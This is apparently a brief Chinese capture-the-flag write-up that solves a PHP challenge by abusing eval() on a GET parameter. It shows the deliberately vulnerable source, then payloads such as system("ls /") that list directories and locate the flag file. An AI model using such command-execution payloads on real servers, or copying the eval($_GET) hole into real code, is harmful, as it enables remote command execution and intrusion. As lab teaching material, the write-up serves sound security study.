



```
 <?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?> 
```

分析源码

get传参url

eval执行

```
?url=system("ls");
```



```
?url=system("ls /");
```




读取/flllllaaaaaaggggggg

